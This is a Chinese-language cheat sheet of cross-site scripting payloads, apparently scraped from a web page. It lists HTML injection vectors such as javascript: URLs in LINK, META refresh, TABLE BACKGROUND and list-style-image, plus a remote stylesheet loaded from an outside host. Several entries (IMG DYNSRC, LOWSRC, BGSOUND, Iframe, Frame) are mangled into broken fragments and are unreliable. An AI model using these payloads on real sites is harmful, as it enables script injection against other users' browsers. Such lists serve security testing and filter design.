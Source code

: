 - **IMG Dynsrc**，示例如下：

  ```
  <IMG DYNSRC=\'#\'" /span>
  ```

- **IMG Lowsrc**，示例如下：

  ```
  <IMG LOWSRC=\'#\'" /span>
  ```

- **BGSOUND**，示例如下：

  ```
  <BGSOUND SRC=\'#\'" /span>
  ```

- **STYLE sheet**，示例如下：

  ```
  <LINK REL=”stylesheet” HREF=”javascript:alert(‘XSS’);”>
  ```

- **远程样式表**，示例如下：

  ```
  <LINK REL=”stylesheet” HREF=”http://3w.org/xss.css”>
  ```

- **List-style-image(列表式)**，示例如下：

  ```
  <STYLE>li {list-style-image: url(“javascript:alert(‘XSS’)”);}</STYLE><UL><LI>XSS
  ```

- **IMG VBscript**，示例如下：

  ```
  <IMG SRC=\'#\'" /STYLE><UL><LI>XSS
  ```

- **META链接url**，示例如下：

  ```
  <META HTTP-EQUIV=”refresh” CONTENT=”0; URL=http://;URL=javascript:alert(‘XSS’);”>
  ```

- **Iframe**，示例如下：

  ```
  <IFRAME SRC=\'#\'" /IFRAME>
  ```

- **Frame**，示例如下：

  ```
  <FRAMESET><FRAME SRC=\'#\'" /FRAMESET>
  ```

- **Table**，示例如下：

  ```
  <TABLE BACKGROUND=”javascript:alert(‘XSS’)”>
  ```

